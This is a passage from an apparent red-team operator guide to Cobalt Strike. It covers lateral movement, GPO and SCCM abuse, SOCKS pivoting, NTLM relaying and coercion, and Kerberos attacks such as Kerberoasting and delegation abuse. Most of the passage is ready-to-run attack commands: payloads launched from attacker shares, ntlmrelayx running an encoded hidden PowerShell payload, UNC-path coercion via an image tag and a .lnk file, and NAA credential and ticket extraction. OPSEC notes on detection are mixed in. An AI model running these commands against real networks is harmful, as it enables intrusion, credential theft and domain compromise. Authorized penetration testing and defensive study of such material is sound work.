#..# | filetype:pdf 2020..2022 | Number range filter |
- | site:apple.com -www -support | Exclude terms (useful for finding subdomains) |
11.8.3 Social Media and Email
LinkedIn profiles reveal technology stacks, job roles, and internal processes. Tools like hunter.io identify email address patterns (e.g., {f}{last}@company.com). Scrape employee names from LinkedIn and transform them into email addresses based on the discovered pattern. These feed into phishing and password spraying campaigns.
12. Lateral Movement
Lateral movement (MITRE TA0008) is the process of gaining access to additional computers on the network using legitimate remote management protocols and administrative credentials. The general pattern is: upload a payload to the target, execute it remotely, and connect to the resulting session.
12.1 Execution Primitives
Cobalt Strike provides two base primitives for remote execution. The jump command automates the full lateral movement workflow (upload, execute, connect, cleanup). The remote-exec command only handles execution, leaving the remaining steps to the operator.
| Command | Syntax | Purpose |
|---|---|---|
jump | jump [technique] [target] [listener] | Full lateral movement in one step |
remote-exec | remote-exec [method] [target] [command] | Execute a command only; operator handles the rest |
12.1.1 Jump Techniques
| Technique | Arch | Description |
|---|---|---|
psexec | x86 | Service EXE artifact via SCM |
psexec64 | x64 | Service EXE artifact via SCM |
psexec_psh | x86 | PowerShell one-liner via SCM |
winrm | x86 | PowerShell script via WinRM |
winrm64 | x64 | PowerShell script via WinRM |
12.1.2 Remote-Exec Methods
| Method | Description | Returns Output |
|---|---|---|
psexec | Service Control Manager | No |
winrm | WinRM (PowerShell) | Yes |
wmi | WMI process create | No |
12.2 Windows Remote Management (WinRM)
WinRM is Microsoft's WS-Management implementation, allowing remote management via PowerShell. Payloads execute entirely in memory without touching disk. Beacons run in the context of the current or impersonated user inside wsmprovhost.exe.
Methodology
- Move laterally with WinRM:
jump winrm64 TARGET smb - Use WinRM for remote enumeration (only remote-exec method that returns output):
remote-exec winrm TARGET net sessions
OPSEC
- Beacon runs inside
wsmprovhost.exe— this is normal when WinRM is used legitimately, producing false positives in detection - PowerShell script block logs (Event ID 4104) can reveal payload artifacts, which is the most reliable detection vector
- WinRM uses Network logon type — no credentials are cached in LSASS on the target
12.3 PsExec
Named after the Sysinternals tool, this technique uploads a service binary to the target via ADMIN$, creates a Windows service to run it, then deletes both the service and the binary. The service binary spawns a temporary process, injects Beacon shellcode, and exits. Beacons always run as SYSTEM.
| Variant | Behavior |
|---|---|
psexec / psexec64 | Uploads a service EXE artifact to ADMIN$ |
psexec_psh | Executes a PowerShell one-liner (32-bit) — no binary on disk |
Methodology
- Move laterally with PsExec:
jump psexec64 TARGET smb - Alternative — PowerShell variant (always 32-bit):
jump psexec_psh TARGET smb
OPSEC
- New service creation (Event ID 4697) is relatively rare day-to-day and easy to detect
- Cobalt Strike uses a random 7-character alphanumeric string for both the service name and binary filename
- The
binPathuses a UNC path toADMIN$— defenders can search for\\*\ADMIN$\*.exein 4697 events - PsExec is considered one of the loudest lateral movement techniques
12.4 Windows Management Instrumentation (WMI)
WMI is available only through remote-exec (not jump). It uses WMI's process call create to spawn a process on the target. The operator must manually upload a payload, execute it, and connect to the resulting session. The process runs in the calling user's elevated context.
Methodology
- Upload a payload to the target via UNC path:
cd \\TARGET\ADMIN$ upload C:\Payloads\smb_x64.exe - Execute the payload via WMI:
remote-exec wmi TARGET C:\Windows\smb_x64.exe - Connect to the P2P Beacon:
link TARGET TSVCPIPE-pipe-name
OPSEC
- Processes started via WMI are children of
WmiPrvSE.exe— defenders hunt for unusual child processes under this parent - Requires dropping a payload to disk (unlike WinRM)
12.5 CoInitializeSecurity Caveat
Beacon's internal WMI implementation uses a BOF that calls CoInitializeSecurity, which sets the COM security context for the entire process. Per Microsoft documentation, this function can only be called once per process. If it gets called in User A's context, future BOFs cannot inherit User B's context for WMI calls.
Methodology
- If WMI returns access denied after impersonating a different user, run from a fresh process using
spawn,spawnas, or an external tool:execute-assembly C:\Tools\SharpWMI\SharpWMI.exe action=exec computername=TARGET command="C:\Windows\smb_x64.exe"
12.6 DCOM
Distributed Component Object Model (DCOM) has no built-in Beacon support, so external tools such as Invoke-DCOM are required. Different DCOM methods (e.g., MMC20.Application, ShellWindows) each work differently, making detection more difficult than PsExec or WMI.
Methodology
- Upload a payload to the target:
cd \\TARGET\ADMIN$ upload C:\Payloads\smb_x64.exe - Execute via DCOM:
powershell-import C:\Tools\Invoke-DCOM.ps1 powershell Invoke-DCOM -ComputerName TARGET -Method MMC20.Application -Command C:\Windows\smb_x64.exe - Connect to the P2P Beacon:
link TARGET TSVCPIPE-pipe-name
OPSEC
- With
MMC20.Application, the spawned process is a child ofmmc.exe - Other DCOM methods may appear as children of
svchost.exe -k DcomLaunch - DCOM is harder to detect than PsExec because each method behaves differently
12.7 Custom Techniques
Both jump and remote-exec can be extended via Aggressor Script to register custom lateral movement techniques. These extensions can use any post-ex capability: PowerShell scripts, .NET assemblies, BOFs, and reflective DLLs.
12.7.1 SCShell
SCShell is a variation of PsExec that modifies an existing service's binary path to point at the payload, starts it, then restores the original path. This avoids new service creation events entirely.
- Load the SCShell Aggressor script:
Cobalt Strike > Script Manager > Load C:\Tools\SCShell\CS-BOF\scshell.cna - Use the registered technique:
jump scshell64 TARGET smb
12.8 LOLBAS
Living Off The Land Binaries and Scripts (LOLBAS) are Microsoft-signed binaries with functionality useful to adversaries, such as arbitrary code execution or DLL injection. Using native Windows tools for lateral movement avoids dropping custom binaries onto the target.
12.8.1 MavInject
mavinject.exe is a signed Microsoft binary in System32 originally for App-V DLL injection. It can inject any arbitrary DLL into a target process.
- Enumerate processes on the remote target:
remote-exec winrm TARGET Get-Process -IncludeUserName | select Id, ProcessName, UserName | sort -Property Id - Upload a DLL payload to the target:
cd \\TARGET\ADMIN$\System32 upload C:\Payloads\smb_x64.dll - Inject the DLL into a chosen process via WMI:
remote-exec wmi TARGET mavinject.exe 1992 /INJECTRUNNING C:\Windows\System32\smb_x64.dll - Connect to the P2P Beacon:
link TARGET TSVCPIPE-pipe-name
OPSEC
- Most mature organizations block LOLBAS via AppLocker or WDAC
- Process creation events from Sysmon easily flag known LOLBAS abuse
- LOLBAS techniques are more applicable to adversary emulation than simulation
12.9 Security Logon Types
After moving laterally, attempts to access domain resources from the new session may fail. This is a consequence of how Windows logon types handle credential caching, not a bug. Understanding logon types is critical to avoiding dead-end sessions.
| Type | ID | Description | Credentials in LSASS |
|---|---|---|---|
| Interactive | 2 | Console logon | Yes |
| Network | 3 | Remote logon (WinRM, PsExec, SMB) | No |
| Batch | 4 | Scheduled task | Yes |
| Service | 5 | Service account | Yes |
| NetworkCleartext | 8 | Network logon with plaintext credentials | Yes |
| NewCredentials | 9 | Clone token with new outbound creds (runas /netonly) | Yes |
| RemoteInteractive | 10 | RDP session | Yes |
Both WinRM and PsExec use Network logon (type 3), the only type that does not cache credentials in LSASS. After a Network logon, the session holds only the service ticket used for authentication (e.g., HTTP for WinRM) — there is no TGT, so further Kerberos authentication to domain resources fails.
Methodology
- After lateral movement, check cached tickets to verify available credentials:
klist - If no TGT is present, use an impersonation technique to populate the session with credentials:
make_token DOMAIN\user password - Alternatively, pass a Kerberos ticket:
ptt /path/to/ticket.kirbi - Consider whether enumeration can be performed from an existing session that already has credential material instead
12.10 Group Policy Abuse
Group Policy Objects (GPOs) control computer and user configuration across OUs. By default only Domain Admins can create and link GPOs, but these rights are frequently delegated to other groups. Compromising a principal with GPO write access enables code execution on every machine in the linked OU.
12.10.1 Enumerate GPO Permissions
- Find principals that can create new GPOs:
powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=DOMAIN,DC=COM" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier } - Find OUs where GPOs can be linked (WriteProperty on GP-Link):
powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,SecurityIdentifier | fl - Find modifiable existing GPOs (filter out SYSTEM, DA, EA):
powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-.*-[\d]{4,10}" } - Resolve the GPO name and identify linked OUs:
powershell Get-DomainGPO -Identity "CN={GUID},CN=Policies,CN=System,DC=DOMAIN,DC=COM" | select displayName, gpcFileSysPath powershell Get-DomainOU -GPLink "{GUID}" | select distinguishedName powershell Get-DomainComputer -SearchBase "OU=TARGET_OU,DC=DOMAIN,DC=COM" | select dnsHostName
12.10.2 Create and Link a New GPO
- Verify RSAT GroupPolicy module is available:
powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands - Create a new GPO:
powershell New-GPO -Name "Evil GPO" - Add an HKLM autorun key via GPO:
powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\DC\share\payload.exe" -Type ExpandString - Link the GPO to the target OU:
powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=DOMAIN,DC=COM"
12.10.3 Modify an Existing GPO
- Use SharpGPOAbuse to add a computer startup script:
execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\DC\share\payload.exe" --GPOName "Vulnerable GPO"
OPSEC
- HKLM autorun keys require a reboot to execute
- GPO modifications in SYSVOL can be monitored via file integrity checks
- Immediate scheduled tasks via SharpGPOAbuse execute faster but generate additional event logs
12.11 SCCM / Configuration Manager
Microsoft Configuration Manager (SCCM/MCM/MECM) manages application deployments, updates, and compliance across an enterprise. With sufficient privilege (Full Administrator or Application Administrator over a collection), it can deploy scripts and applications to managed devices — making it a powerful lateral movement vector.
12.11.1 Enumerate SCCM
- Find the management point and site code (no special privileges required):
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe local site-info --no-banner - Alternative via WMI:
powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl - Check the System Management container DACL for SCCM site servers:
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe get site-info -d DOMAIN.COM --no-banner - Enumerate collections (requires Read-Only Analyst role or higher):
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe get collections --no-banner - List collection members:
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe get collection-members -n COLLECTION_NAME --no-banner - Get detailed device info:
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe get devices -n HOSTNAME -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner - User hunting — find where a user last logged in:
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe get devices -u USERNAME -p IPAddresses -p Name --no-banner
SCCM uses RBAC with scoped collections. The enumeration results depend entirely on the privileges of the user running the query. Last-login data is only refreshed every 7 days by default.
| SCCM Role | Capability |
|---|---|
| Read-Only Analyst | Enumerate collections, devices, users |
| Application Administrator | Deploy applications to collections |
| Full Administrator | Complete control over scoped collections |
12.11.2 Deploy via SCCM
- Execute a command on all devices in a collection (runs as logged-in user):
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe exec -n COLLECTION_NAME -p C:\Windows\notepad.exe --no-banner - Execute as SYSTEM on all devices regardless of user login state:
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe exec -n COLLECTION_NAME -p "C:\Windows\System32\cmd.exe /c start /b \\DC\share\payload.exe" -s --no-banner
12.11.3 Network Access Account Credentials
NAA credentials allow non-domain-joined machines to access SCCM Software Distribution Points. They are encrypted with DPAPI and stored locally on managed clients. These credentials are frequently over-privileged.
- Extract NAA credentials via WMI (requires local admin):
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe local naa -m wmi --no-banner - Alternative — extract from disk:
execute-assembly C:\Tools\SharpSCCM\SharpSCCM.exe local naa -m disk --no-banner - Test recovered credentials:
make_token DOMAIN\sccm_svc Password123 ls \\DC\c$
OPSEC
- SharpSCCM hides deployments from the GUI, but they remain visible until completion
- SCCM deployments are logged in Configuration Manager — SOC teams monitoring SCCM will see unexpected application deployments
- NAA credentials should only have read access to SDPs, but are often domain admin level
13. Pivoting
Pivoting (MITRE T1090) proxies traffic through a compromised host to reach network segments that are otherwise inaccessible from the attacker's machine. The two primary techniques are SOCKS proxies (tunnel traffic inbound) and reverse port forwards (tunnel traffic outbound). Both rely on the Beacon's C2 channel as the transport, so sleep time directly affects throughput.
13.1 SOCKS Proxies
A SOCKS proxy turns the team server into a relay: traffic from the attacker's local tools is forwarded through Beacon into the target network. This allows execution of tools (Python, GUI apps, Linux utilities) that cannot run natively on a compromised Windows host, while also reducing the detection surface because no post-ex code runs on the endpoint.
| Version | Auth Support | Logging | Command |
|---|---|---|---|
| SOCKS4a | None | No | socks <port> |
| SOCKS5 | Username/password | Yes | socks <port> socks5 disableNoAuth <user> <pass> enableLogging |
Methodology
- Start a SOCKS proxy on the pivot Beacon:
socks 1080 - Confirm the port is listening on the team server:
sudo ss -lpnt - Reduce Beacon sleep for interactive proxy use:
sleep 0
OPSEC
- The SOCKS port binds on all interfaces of the team server; any host with network access can interact with it. Use SOCKS5 with authentication to mitigate.
- Setting
sleep 0makes the Beacon check in continuously, which is loud on the wire. Balance speed against stealth by using the lowest sleep time your tools can tolerate.
13.2 Proxychains (Linux)
proxychains wraps any TCP application and routes its traffic through a SOCKS proxy. ICMP and SYN scans cannot be tunneled, so tools like nmap require -Pn (disable ping) and -sT (TCP connect scan).
Methodology
- Edit
/etc/proxychains.conf: comment outproxy_dns(line 38) and set the proxy entry to point at the team server:socks4 10.0.0.5 1080 - Scan internal hosts through the proxy:
proxychains nmap -n -Pn -sT -p 445,3389,5985 [team-server-ip] - Execute a remote shell via Impacket with plaintext credentials:
proxychains smbexec.py '[DOMAIN]/[user]:[password]@[target]' - Use Kerberos tickets with Impacket; convert kirbi to ccache if needed:
ticketConverter.py [user].kirbi [user].ccache- Set the
KRB5CCNAMEenvironment variable:export KRB5CCNAME=/path/to/[user].ccache - Run Impacket with Kerberos authentication:
proxychains smbexec.py -no-pass -k -dc-ip [dc] [DOMAIN]/[user]@[target]
- Set the
- Request a TGT with an AES256 hash via
getTGT.py:proxychains getTGT.py -dc-ip [dc-ip] -aesKey <aes256-hash> [domain]/[user]
13.3 Proxifier (Windows)
Proxifier forces Windows TCP traffic through a SOCKS proxy. It supports proxification rules that restrict which applications and destination subnets are tunneled, preventing unrelated traffic from hitting the proxy.
Methodology
- Add a proxy server entry in Proxifier: Profile > Proxy Servers > Add. Set the team server IP, port, and protocol (SOCKS4/SOCKS5).
- Create a proxification rule targeting the internal subnet (e.g.,
10.10.120.0/24). Leave applications as Any. - For Kerberos authentication, add
*.domain.comto the proxification rule target hosts so hostname-based Kerberos traffic is proxied. - Add static host entries so hostnames resolve correctly:
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '[team-server-ip] [dc]' - Launch tools with domain context using
runas /netonly:runas /netonly /user:[DOMAIN]\[user] mmc.exe - Use RSAT cmdlets with a credential object:
$Cred = Get-Credential [DOMAIN]\[user] Get-ADUser -Filter * -Credential $Cred -Server [dc]
13.4 Pivoting with Kerberos Tickets
Kerberos authentication requires hostnames (not IP addresses). When pivoting with Kerberos, you must have the correct service tickets loaded into the logon session before accessing resources. This applies to both Windows (Rubeus) and Linux (Impacket) tooling.
Methodology
- On Windows, create a sacrificial logon session with Rubeus
createnetonly:Rubeus.exe createnetonly /domain:[DOMAIN] /username:[user] /password:[password] /program:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ticket:[user].kirbi /show - Request the required service ticket and inject it:
Rubeus.exe asktgs /service:ldap/[dc] /ticket:[user].kirbi /dc:[dc] /ptt - Confirm tickets in cache:
Rubeus.exe klist - Run the target tool (RSAT, HeidiSQL, AD Explorer) from the same process:
Import-Module ActiveDirectory Get-ADUser -Filter 'ServicePrincipalName -like "*"' -Server [dc] - On Linux, obtain a TGT via delegation trick and convert:
echo -en '<base64-ticket>' | base64 -d > user.kirbi ticketConverter.py user.kirbi user.ccache export KRB5CCNAME=user.ccache - Access services through the proxy with Kerberos:
proxychains mssqlclient.py -dc-ip [dc-ip] -no-pass -k [domain]/[user]@[linked-sql-target]
13.5 Browser Pivoting
Firefox with the FoxyProxy extension can route browser traffic through the Beacon SOCKS proxy to access internal web applications. Add a FoxyProxy entry pointing to the team server IP and SOCKS port, then browse to internal addresses directly.
Methodology
- Install FoxyProxy in Firefox and add a new proxy entry pointing to the team server SOCKS port.
- Enable the proxy profile and navigate to internal web applications by IP or hostname.
13.6 Reverse Port Forwards
Reverse port forwards tunnel traffic outward: the Beacon listens on a local port and relays inbound connections back to the team server, which forwards them to a specified host and port. This is the inverse of a SOCKS proxy and is used to deliver payloads or relay authentication from hosts that lack direct Internet access.
| Parameter | Description |
|---|---|
bind port | Port Beacon listens on locally |
forward host | Host the team server forwards traffic to |
forward port | Port on the forward host |
Methodology
- Add a firewall rule to allow inbound traffic on the chosen port (requires local admin):
run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190 - Start the reverse port forward:
rportfwd 28190 localhost 80 - From the restricted host, pull payloads through the pivot:
remote-exec winrm [target] iwr http://[target]:28190/payload - Clean up when finished:
rportfwd stop 28190 run netsh advfirewall firewall delete rule name="Debug"
OPSEC
- If the Windows firewall is enabled and no allow rule exists, binding a port triggers a visible alert to the logged-in user. Always create the firewall rule before starting
rportfwd. - Standard users can bind to high ports (>1023). Binding to common ports (80, 443, 8080) requires local admin.
- Delete firewall rules and stop port forwards immediately after use to reduce the window of exposure.
13.7 NTLM Relaying
NTLM relaying intercepts NTLM authentication and replays it against another service. In a C2 context this requires multiple capabilities working together, a port-redirection driver (PortBender), a reverse port forward, ntlmrelayx on the team server, and a SOCKS proxy for the relay response path.

| Component | Role |
|---|---|
PortBender | WinDivert driver that redirects port 445 traffic to a high port (e.g., 8445) |
rportfwd | Tunnels redirected SMB traffic from the high port back to the team server |
ntlmrelayx | Listens on the team server, relays captured authentication to the target |
socks | Allows ntlmrelayx to send relay responses back into the target network |
Methodology
- Obtain a SYSTEM Beacon on the capture host. Allow inbound ports for SMB capture and payload delivery:
New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445 New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080 - Start reverse port forwards for SMB capture and download cradle:
rportfwd 8445 localhost 445 rportfwd 8080 localhost 80 - Start a SOCKS proxy for ntlmrelayx response traffic:
socks 1080 - Launch ntlmrelayx on the team server with a post-auth command:
sudo proxychains ntlmrelayx.py -t smb://[dc-ip] -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc <payload>' - Upload the WinDivert driver and load PortBender:
cd C:\Windows\system32\drivers upload C:\Tools\PortBender\WinDivert64.sys - Redirect port 445 to 8445:
PortBender redirect 445 8445 - Coerce or wait for authentication to the capture host (see section 13.8), then link to the resulting Beacon:
link [dc] [pipe-name] - Clean up; stop the PortBender job and kill its spawned process.
OPSEC
- The WinDivert driver load generates a driver load event (Sysmon Event ID 6). Defenders hunt for unsigned or unusual drivers in
C:\Windows\system32\drivers. - Port 445 redirection is a high-fidelity indicator; restrict the duration of the attack to minimize exposure.
13.8 Forcing NTLM Authentication
Coercing NTLM authentication from a privileged principal is the trigger for relay attacks. Several techniques can force authentication without direct user interaction.
| Technique | Mechanism | Requirements |
|---|---|---|
| 1x1 image in email | Embed <img src="\\attacker\x.ico" height="1" width="1"> in an email body or signature | Control over a mailbox |
| Windows shortcut (.lnk) | Set the icon property to a UNC path; triggers on folder view, no click needed | Write access to a readable share |
| SpoolSample / PetitPotam | Abuse MS-RPRN or MS-EFS RPC to force machine account authentication | Authenticated domain access |
Methodology
- Drop a malicious .lnk on a public share:
$wsh = New-Object -ComObject wscript.shell $shortcut = $wsh.CreateShortcut("\\[dc]\software\test.lnk") $shortcut.IconLocation = "\\[ip]\test.ico" $shortcut.Save() - Trigger machine account authentication via SpoolSample or SharpSystemTriggers:
execute-assembly SharpSpoolTrigger.exe [target] [target]@8888/pwned
13.9 Relaying WebDAV
WebDAV relay attacks target the WebClient service (which exposes the DAV RPC SERVICE named pipe). Because WebDAV uses HTTP, the attacker controls the destination port; no PortBender driver is needed. The captured machine account authentication can be relayed to LDAP to abuse RBCD or shadow credentials.
Methodology
- Enumerate hosts running the WebClient service:
inline-execute GetWebDAVStatus_x64.o [target],[target] - Start ntlmrelayx targeting LDAP with RBCD or shadow credentials:
sudo proxychains ntlmrelayx.py -t ldaps://[dc-ip] --delegate-access -smb2support --http-port 8888 - Open the firewall and set a reverse port forward for the HTTP port:
New-NetFirewallRule -DisplayName "8888-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8888rportfwd 8888 localhost 8888 - Trigger authentication via SharpSpoolTrigger pointing at the WebDAV port:
execute-assembly SharpSpoolTrigger.exe [target] [target]@8888/pwned - If using RBCD; compute the AES256 hash of the created machine account and perform S4U:
Rubeus.exe hash /domain:[domain] /user:[MACHINE$] /password:'<password>'Rubeus.exe s4u /user:[MACHINE$] /impersonateuser:[user] /msdsspn:cifs/[target] /aes256:<hash> /nowrap - If using shadow credentials; base64-encode the dumped PFX and request a TGT:
cat dumped.pfx | base64 -w 0Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:<base64-pfx> /password:<pfx-pass> /nowrap - Clean up: delete the fake machine account (RBCD) or remove the shadow credential keys.
OPSEC
- The WebClient service is
DEMAND_STARTby default; it may not be running on all targets. Enumerate first with theDAV RPC SERVICEpipe check. - Both RBCD and shadow credential attacks leave artifacts (machine accounts, msDS-KeyCredentialLink entries). Remove them immediately after the operation.
14. Kerberos
14.1 Protocol Overview
Kerberos replaced NTLM as the default domain authentication protocol since Windows Server 2000. It operates on a ticket-based system where principals (users and computers) authenticate through a central trusted server, the Key Distribution Center (KDC). The protocol assumes no transport encryption and relies on shared-secret cryptography.
| Component | Description |
|---|---|
| KDC | Trusted source for authentication, runs on domain controllers. Contains the AS, TGS, and principal database. |
| TGT | Ticket Granting Ticket — issued after identity verification, used in lieu of re-entering credentials (single sign-on). |
| Service Ticket (TGS) | Ticket for accessing a specific service. Requested from the TGS component using a valid TGT. |
| SPN | Service Principal Name — unique identifier for a service instance, format class/instance:port. |
| PAC | Privilege Attribute Certificate — embedded in tickets, contains RID, group membership, and UAC data from AD. |
14.1.1 Authentication Flow
| Step | Message | Description |
|---|---|---|
| 1 | AS-REQ | Client sends principal name, realm, target service (krbtgt), and supported encryption types to the KDC. |
| 2 | Pre-auth | KDC requires pre-authentication (default). Client encrypts current timestamp with key derived from password (AES256 salted with username + realm). |
| 3 | AS-REP | KDC validates timestamp, generates TGT + logon session key. TGT encrypted with krbtgt hash; session key copy encrypted with principal's secret. |
| 4 | TGS-REQ | Client sends target SPN, TGT, and authenticator (encrypted with logon session key) to request a service ticket. |
| 5 | TGS-REP | KDC decrypts TGT, recovers session key, validates authenticator, returns service ticket + service session key. PAC copied from TGT into service ticket. |
| 6 | AP-REQ | Client presents service ticket + authenticator (encrypted with service session key) to the target service. |
| 7 | AP-REP | Service decrypts ticket with its own secret, validates authenticator. If mutual auth requested, re-encrypts timestamp and returns it. |
The KDC does not validate whether the principal has access to the requested service. Authorization is handled by the service itself (e.g., DACL checks on file shares). When PAC validation is enforced, the service sends an RPC call to the KDC to verify the PAC signature; a forged PAC will cause access denial.
14.2 Kerberoasting
Service accounts with SPNs registered in AD have their service tickets partially encrypted with a key derived from the account's password. Kerberoasting requests TGS tickets for these accounts and cracks the encrypted portion offline to recover plaintext passwords.
Methodology
- Enumerate domain users with SPNs set:
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName - Roast a specific account (avoids honeypot detection):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:[svc-account] /nowrap - Crack the hash offline:
hashcat -a 0 -m 13100 hashes rockyou.txt
OPSEC
- Roasting all SPNs hits honeypot accounts — generates
4769events for fake services that are never legitimately accessed. - Enumerate candidates first and roast selectively by
/userparameter to minimize detection surface.
14.3 AS-REP Roasting
Accounts with Kerberos pre-authentication disabled (DONT_REQUIRE_PREAUTH, UAC flag 4194304) allow anyone to request an AS-REP without proving knowledge of the password. The EncASRepPart of the reply can be cracked offline. This misconfiguration is common on accounts associated with Linux systems.
Methodology
- Find accounts with pre-auth disabled:
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname - Request the AS-REP for the target user:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap - Crack the hash offline:
hashcat -a 0 -m 18200 hashes rockyou.txt
OPSEC
- Generates event
4768with RC4 encryption (0x17) and pre-auth type0— both anomalous in modern environments.
14.4 Unconstrained Delegation
Unconstrained delegation was the first delegation type, introduced in Windows 2000. When enabled via the TRUSTED_FOR_DELEGATION flag on a computer object, the KDC sets ok-as-delegate in the TGS-REP. The client then includes a copy of the user's TGT in the AP-REQ, and the server caches it in memory for future use.
Compromising a host with unconstrained delegation grants access to every cached TGT, enabling impersonation of those users to any service in the domain. Domain controllers always have unconstrained delegation enabled. the Active Directory delegation tab with unconstrained delegation selected.

Methodology
- Find computers with unconstrained delegation:
beacon> ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname - Monitor for incoming TGTs on the compromised host:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap - Force a target computer to authenticate (remote auth trigger):
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe [dc] [target] - Extract the captured TGT and inject into a new logon session:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[DOMAIN] /username:[user] /password:[password] /ticket:<base64-ticket> - Steal the token and access resources:
beacon> steal_token <PID> beacon> ls \\[dc]\c$ - Terminate the Rubeus monitor job:
beacon> jobs beacon> jobkill <JID>
OPSEC
- Remote auth triggers (SpoolSample, PetitPotam) generate authentication traffic from the target to the listener host — run the trigger as a standard domain user in a medium-integrity context.
- Computer account TGTs cannot directly access
C$because machine accounts lack remote local admin to themselves — use the S4U2self computer takeover technique (section 14.7) instead.
14.5 Constrained Delegation
Constrained delegation (S4U extension, Server 2003+) restricts delegation to specific SPNs listed in the msDS-AllowedToDelegateTo attribute of the delegating account. It uses two sub-protocols: S4U2proxy (obtain a service ticket to a back-end service on behalf of a user) and S4U2self (obtain a service ticket to itself on behalf of a user, for protocol transition). the constrained delegation configuration in the AD delegation tab.

| Mode | UAC Flag | Behavior |
|---|---|---|
| Kerberos only (default) | None extra | S4U2proxy uses user's cached service ticket. Cannot freely choose impersonation target. |
| Protocol transition | TRUSTED_TO_AUTH_FOR_DELEGATION (16777216) | S4U2self returns forwardable ticket, enabling impersonation of any user via S4U2proxy. |
Methodology
- Find computers configured for constrained delegation:
beacon> ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo - Check if protocol transition is enabled (bitwise AND with UAC value):
[System.Convert]::ToBoolean(16781312 -band 16777216) - Extract or request a TGT for the delegating computer account:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap - With protocol transition — perform S4U (impersonate any user):
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:[target]$ /msdsspn:cifs/[file-server] /ticket:<base64-tgt> /impersonateuser:Administrator /nowrap - Without protocol transition — use a captured front-end service ticket directly with
